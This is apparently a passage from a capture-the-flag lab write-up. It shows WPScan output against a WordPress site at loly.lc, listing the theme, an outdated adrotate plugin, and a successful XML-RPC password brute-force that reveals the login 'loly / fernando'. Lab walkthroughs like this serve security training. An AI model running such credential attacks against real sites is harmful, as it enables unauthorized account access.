 ```bash
 | Style Name: Feminine Style
 | Style URI: https://www.acmethemes.com/themes/feminine-style
 | Description: Feminine Style is a voguish, dazzling and very appealing WordPress theme. The theme is completely wo...
 | Author: acmethemes
 | Author URI: https://www.acmethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://loly.lc/wordpress/wp-content/themes/feminine-style/style.css?ver=5.5, Match: 'Version: 1.0.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2023-01-27T21:19:00.000Z
 | [!] The version is out of date, the latest version is 5.11
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                     
Trying loly / corazon Time: 00:00:02 <                                                  > (175 / 14344567)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar 14 18:12:09 2023
[+] Requests Done: 316
[+] Cached Requests: 38
[+] Data Sent: 128.746 KB
[+] Data Received: 128.072 KB
[+] Memory used: 253.742 MB
[+] Elapsed time: 00:00:10
```
